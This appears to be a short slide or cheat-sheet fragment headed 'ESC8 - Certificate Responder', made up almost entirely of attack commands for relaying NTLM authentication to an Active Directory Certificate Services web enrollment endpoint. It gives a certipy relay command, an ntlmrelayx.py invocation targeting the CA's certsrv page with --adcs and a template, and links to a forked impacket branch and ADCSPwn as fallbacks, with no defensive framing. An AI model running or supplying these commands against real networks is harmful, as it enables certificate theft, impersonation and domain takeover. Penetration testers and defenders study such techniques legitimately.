

# ESC8 - Certificate Responder
sudo certipy relay -ca CA_DOMAIN

python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template TEMPLATE

https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack (If the above is failing)
https://github.com/bats3c/ADCSPwn